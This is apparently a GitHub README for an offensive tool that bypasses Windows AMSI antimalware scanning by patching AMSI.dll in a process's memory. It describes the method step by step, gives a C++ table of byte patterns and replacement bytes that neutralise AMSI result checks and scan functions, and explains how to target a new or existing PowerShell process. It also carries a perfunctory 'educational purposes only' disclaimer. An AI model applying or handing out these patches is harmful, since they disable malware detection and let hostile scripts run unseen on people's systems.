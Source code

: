 # 🛡️ EByte-Pattern-AmsiPatch 🛡️

EByte-Pattern-AmsiPatch bypasses AMSI by directly patching the AMSI.dll module **in memory** of a target process. It does **not** modify any files on disk.

### 🧬 How It Works

1. **Target Selection**: Takes an existing process ID or creates a new PowerShell process
2. **Memory Patching**: Modifies AMSI.dll code in the target process memory:
   - Changes result comparison values (`cmp eax,0/1` → `cmp eax,-1`)
   - Converts conditional jumps to unconditional jumps
   - Replaces function prologues with immediate returns (`xor eax,eax; ret`)

### 💻 Technical Details

```cpp
// Key patterns that neutralize AMSI functionality
const PatternInfo AMSI_PATTERNS[] = {
    { "AMSI_RESULT_CLEAN", { 0x83, 0xF8, 0x00 }, { 0x83, 0xF8, 0xFF }, 3 },
    { "AMSI_RESULT_DETECTED", { 0x83, 0xF8, 0x01 }, { 0x83, 0xF8, 0xFF }, 3 },
    { "AMSI_TEST_JZ", { 0x85, 0xC0, 0x74 }, { 0x85, 0xC0, 0xEB }, 3 },
    { "AMSI_SCAN_FUNC_START", { 0x48, 0x89, 0x5C, 0x24, 0x08 }, { 0x31, 0xC0, 0xC3, 0x90, 0x90 }, 5 }
    // ... and wayyy more patterns
};
```

- **In-Memory Only**
- **Pattern-Based**: No LoadLibrary, or GetProcAddress calls

### ⚡ Usage

- Run without parameters to create and patch a new PowerShell process
- Run with a PID to patch AMSI in an existing process (powershell for example): `EByte-Pattern-AmsiPatch.exe $pid`


## ⚠️ Legal Disclaimer

For educational purposes only. Using this to bypass security mechanisms may violate system policies, terms of service, or applicable laws.

---
# PoC ⭐
![image](https://github.com/user-attachments/assets/ce4aaa03-82b8-44f8-ba35-efeb953f3b34)

---

**Copyright © 2025 EvilByteCode. All Rights Reserved.** 
